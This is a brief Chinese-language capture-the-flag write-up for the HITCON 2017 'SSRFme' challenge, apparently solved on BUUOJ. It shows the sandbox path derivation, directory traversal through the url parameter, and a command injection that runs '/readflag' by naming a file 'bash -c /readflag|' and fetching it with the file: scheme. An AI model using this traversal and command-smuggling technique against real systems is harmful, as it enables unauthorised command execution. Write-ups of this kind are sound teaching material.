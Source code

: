 # [HITCON 2017]SSRFme1

![upload successful](/images/pasted-456.png)
上来就是代码审计

则目录$sandbox为sandbox/md5(orange111.73.46.229:80)即：sandbox/864300xxxxxxxxxxcc4523ef49c50223

GET ./可以查看当前路径，GET …/可以查看上一级路径，于是先：`http://0ba28389-bff6-48a1-952c-cfd44f67bfb3.node3.buuoj.cn/?url=../../../../../../&filename=aaa`

然后访问aaa：
`http://1c2ae46f-4e1e-4987-bb41-072e27d42dd7.node4.buuoj.cn:81/sandbox/2eeed2f9aeae6311b507ada8fb98809e/aaa`

![upload successful](/images/pasted-457.png)
`
首先得满足前面的文件存在, 才会继续到open语句, 所以在执行命令前得保证有相应的同名文件:
?url=&filename=bash -c /readflag| 先新建一个名为“bash -c /readflag|”的文件，用于之后的命令执行
?url=file:bash -c /readflag|&filename=aaa 再利用GET执行bash -c /readflag保存到111文件
访问sandbox/md5/aaa（得到flag）`